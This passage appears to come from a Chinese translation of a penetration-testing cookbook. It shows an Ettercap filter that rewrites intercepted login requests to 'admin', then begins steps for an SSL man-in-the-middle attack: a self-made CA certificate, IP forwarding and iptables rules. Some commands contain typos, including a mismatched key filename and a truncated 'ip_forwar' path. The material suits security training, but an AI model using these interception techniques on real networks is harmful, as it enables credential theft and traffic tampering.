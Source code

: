 我们使用正则表达式来获取请求中的`Content-Length`参数，并将它的值改为 41，这是我们发送带有`admin/admin`凭证的登录封包的长度。

```
if (pcre_regex(DATA.data, "username=[a-zA-Z]*&","username=admin&")){    
    msg("DATA modified\n");  
} 
```

同样，使用正则表达式，我们在请求中查找用户名称值，并将它替换为`admin`。

消息（`msg`）仅仅用于跟踪和调试目的，可以被从脚本中忽略。

在编写完脚本之后，我们使用 Ettercap 的 etterfilter 编译他，以便执行它。之后，我们在 Ettercap 中加载它，然后等待客户端连接。

## 8.4 发起 SSL MITM 攻击

如果我们使用我们目前的方法嗅探 HTTPS 会话，我们不能从中得到很多信息，因为所有通信都是加密的。

为了拦截、读取和修改 SSL 和 TLS 的连接，我们需要做一系列准备步骤，来建立我们的 SSL 代理。SSLsplit 的仿作方式是使用两个证书，一个用于告诉服务器这是客户端，以便它可以接收和解密服务器的响应，另一个告诉客户端这是服务器。对于第二个证书，如果我们打算代替一个拥有自己的域名的网站，并且它的证书由认证中心（CA）签发，我们就需要让 CA 为我们签发根证书，但因为我们是攻击者，我们就需要自己来做。

这个秘籍中，我们会配置我们自己的 CA，以及一些 IP 转发规则来执行 SSL 中间人攻击。

### 操作步骤

1.  首先，我们打算在 Kali 上创建 CA 私钥，所以在 root 终端中键入下列命令：

    ```
    openssl genrsa -out certaauth.key 4096 
    ```

2.  现在让我们创建一个使用这个密钥签名的证书：

    ```
    openssl req -new -x509 -days 365 -key certauth.key -out ca.crt 
    ```

3.  填充所需信息（或者仅仅对每个字段按下回车）。

4.  下面，我们需要开启 IP 转发来开启系统的路由功能（将目标不是本地主机的 IP 包转发到网关）：

    ```
    echo 1 > /proc/sys/net/ipv4/ip_forwar
    ```

5.  现在我们打算配置一些会泽来防止转发任何东西。首先，让我们检查我们的 iptables 的`nat`表中是否有任何东西：

    ```
    iptables -t nat -L
    ```
